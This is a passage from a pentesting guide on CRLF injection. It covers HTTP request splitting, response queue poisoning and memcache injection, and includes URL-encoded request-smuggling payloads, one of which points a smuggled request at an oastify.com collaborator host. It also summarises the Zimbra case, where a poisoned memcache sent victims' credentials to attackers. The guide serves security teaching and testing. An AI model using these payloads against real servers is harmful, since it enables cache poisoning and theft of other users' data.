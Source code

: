 You can inject essential headers to ensure the **back-end keeps the connection open** after responding to the initial request:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```

Afterward, a second request can be specified. This scenario typically involves [HTTP request smuggling](http-request-smuggling/), a technique where extra headers or body elements appended by the server post-injection can lead to various security exploits.

**Exploitation:**

1. **Malicious Prefix Injection**: This method involves poisoning the next user's request or a web cache by specifying a malicious prefix. An example of this is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

2. **Crafting a Prefix for Response Queue Poisoning**: This approach involves creating a prefix that, when combined with trailing junk, forms a complete second request. This can trigger response queue poisoning. An example is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

### Memcache Injection

Memcache is a **key-value store that uses a clear text protocol**. More info in:

{{#ref}}
../network-services-pentesting/11211-memcache/
{{#endref}}

**For the full information read the**[ **original writeup**](https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/)

If a platform is taking **data from an HTTP request and using it without sanitizing** it to perform **requests** to a **memcache** server, an attacker could abuse this behaviour to **inject new memcache commands**.

For example, in the original discovered vuln, cache keys were used to return the IP and port a user shuold connect to, and attackers were able to **inject memcache comands** that would **poison** the **cache to send the vistims details** (usrnames and passwords included) to the attacker servers:

<figure><img src="../images/image (659).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/ba72cd16-2ca0-447b-aa70-5cde302a0b88/body-578d9f9f-1977-4e34-841c-ad870492328f_10.png?w=1322&#x26;h=178&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>

Moreover, researchers also discovered that they could desync the memcache responses to send the attackers ip and ports to users whose email the attacker didn't know:
